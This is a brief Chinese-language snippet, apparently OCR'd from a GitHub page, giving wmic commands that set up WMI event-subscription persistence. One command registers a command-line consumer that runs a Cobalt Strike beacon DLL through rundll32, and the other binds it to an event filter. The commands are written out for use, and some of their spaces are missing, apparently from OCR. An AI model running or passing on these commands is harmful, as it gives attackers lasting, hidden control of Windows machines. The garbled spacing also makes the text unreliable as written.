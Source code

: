 
注册一个事件消费者，这里写入了要执行的命令，是用 rundll32 启动 cs 的 dll
wmic /NAMESPACE:"\\root\subscription"PATHCommandLineEventConsumer CREATE Name="TestConsumer2",ExecutablePath="C:\Windows\System32\cmd.exe",CommandLineTemplate=" /c rundll32 c:\users\public\downloads\beacon.dll #5" 

绑定事件 过滤器和事件消费者
wmic /NAMESPACE:"\\root\subscription"PATH__FilterToConsumerBindingCREATE Filter="__EventFilter.Name=\"TestEventFilter\"", Consumer="CommandLineEventConsumer.Name=\"TestConsumer2\""